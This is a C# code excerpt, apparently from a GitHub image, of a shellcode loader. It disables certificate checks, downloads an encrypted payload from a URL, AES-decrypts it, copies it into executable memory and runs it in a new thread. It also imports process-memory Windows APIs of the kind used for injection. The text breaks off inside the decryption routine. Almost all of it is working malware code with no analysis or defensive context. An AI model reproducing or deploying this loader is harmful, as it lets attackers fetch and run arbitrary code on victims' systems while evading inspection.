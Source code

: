 ```

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out int lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr LoadLibrary(string lpFileName);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        public static void DownloadAndExecute()
        {
            Console.WriteLine("Starting DownloadAndExecute...");
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            Console.WriteLine("Shellcode downloaded.");

            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length - 1; i++)
            {
                l.Add(shellcode[i]);
            }
            Console.WriteLine("Shellcode adjusted.");

            byte[] actual = l.ToArray();

            byte[] decrypted;

            decrypted = Decrypt(actual, AESKey, AESIV);
            Console.WriteLine("Shellcode decrypted.");
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
            Marshal.Copy(decrypted, 0, addr, decrypted.Length);
            Console.WriteLine("Shellcode allocated and copied to memory.");
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            Console.WriteLine("Shellcode executed.");
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;
```